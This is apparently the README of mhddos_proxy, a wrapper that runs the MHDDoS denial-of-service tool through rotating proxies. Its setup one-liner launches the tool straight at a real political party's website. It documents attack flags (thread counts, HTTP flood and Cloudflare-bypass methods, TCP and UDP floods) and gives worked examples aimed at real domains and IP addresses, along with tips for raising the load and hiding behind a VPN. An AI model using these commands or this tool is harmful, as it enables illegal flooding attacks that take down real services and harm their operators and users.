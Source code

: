 ## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- **No VPN required** - automatically downloads and selects working proxies for given targets
- Support for **multiple targets** with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup

### Python

```bash
git clone https://github.com/botsarefuture/mhddos_proxy.git && cd mhddos_proxy && git clone https://github.com/MHProDev/MHDDoS.git && python3 -m pip install -r MHDDoS/requirements.txt --b && python3 runner.py https://perussuomalaiset.fi
```
```

### Docker

Install and run Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

```bash
docker pull portholeascend/mhddos_proxy:latest
```

## Running

### Docker

```bash
docker run -it --rm portholeascend/mhddos_proxy:latest COMMAND
```

### Python

```bash
python3 runner.py COMMAND
```

## Usage

```bash
usage: runner.py target [target ...]
                 [-t THREADS] 
                 [-p PERIOD]
                 [--proxy-timeout TIMEOUT]
                 [--rpc RPC] 
                 [--udp-threads UDP_THREADS]
                 [--debug]
                 [--http-methods METHOD [METHOD ...]]

positional arguments:
  targets                List of targets, separated by space

optional arguments:
  -h, --help             show this help message and exit
  -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
  -p, --period 300       How often to update the proxies (default is 300)
  --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                         Higher values give more proxies, but with lower speed/quality.
                         Parsing also takes more time (default is 2)

  --debug                Enable debug output from MHDDoS
  --rpc 50               How many requests to send on a single proxy connection (default is 50)
  --udp-threads 1        Threads to run per UDP target (default is 1)

  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, STRESS, BOT, DOWNLOADER)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   

**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

```bash
python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53
```

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

```bash
python3 runner.py -t 1000 https://tvzvezda.ru
```

View DEBUG info (traffic)

```bash
python3 runner.py https://tvzvezda.ru --debug
```

Change proxy update interval

```bash
python3 runner.py -p 600 https://tvzvezda.ru
```

Get more proxies (possibly lower quality)

```bash
python3 runner.py --proxy-timeout 5 https://tvzvezda.ru
```

Specific HTTP(S) attack method(s)

```bash
python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM
```
